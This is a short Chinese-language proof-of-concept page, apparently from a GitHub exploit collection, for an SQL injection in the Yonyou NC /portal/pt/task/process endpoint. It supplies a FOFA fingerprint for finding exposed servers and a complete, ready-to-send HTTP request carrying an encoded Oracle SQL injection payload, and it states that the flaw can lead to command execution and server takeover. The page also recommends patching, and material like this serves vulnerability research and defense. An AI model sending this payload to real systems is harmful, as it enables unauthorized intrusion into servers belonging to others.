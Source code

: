 # 用友NC-process存在SQL注入漏洞

用友NC /portal/pt/task/process 接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```javascript
icon_hash="1085941792"
```


## poc

```javascript
POST /portal/pt/task/process?pageId=login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

id=1&oracle=1&pluginid=1%27%20AND%207194%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28113%29%7C%7CCHR%28113%29%7C%7CCHR%2898%29%7C%7CCHR%2898%29%7C%7CCHR%28113%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%287194%3D7194%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28120%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%7C%7CCHR%28113%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29--%20dJyN
```

![image-20241128091833680](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280918769.png)
